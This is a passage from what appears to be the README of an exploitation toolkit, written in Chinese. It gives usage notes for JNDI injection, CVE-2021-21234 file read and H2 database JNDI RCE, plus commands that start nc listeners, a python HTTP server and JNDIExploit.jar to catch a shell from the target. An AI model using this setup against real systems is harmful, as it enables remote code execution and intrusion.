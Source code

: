 **注意**： 

1、目标必须是出网的，否则 restart 会导致程序异常退出

 2、JNDI 服务返回的 object 需要实现javax.naming.spi.ObjectFactory`接口，否则会导致程序异常退出（已打包成jar包在resources文件夹）

```bash
nc -lvk 9990 # mac
nc -lvp 9990 #linux
python -m http.server 80 
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i ip
```

![](./image/image-20240921141501679.png)

### #10 CVE-2021-21234任意文件读取

(仅做poc测试，后续加入输入文件名)

![](./image/image-20240921163721471.png)

### #11 H2数据库的JNDI的RCE

POC

![](./image/image-20241101163455286.png)
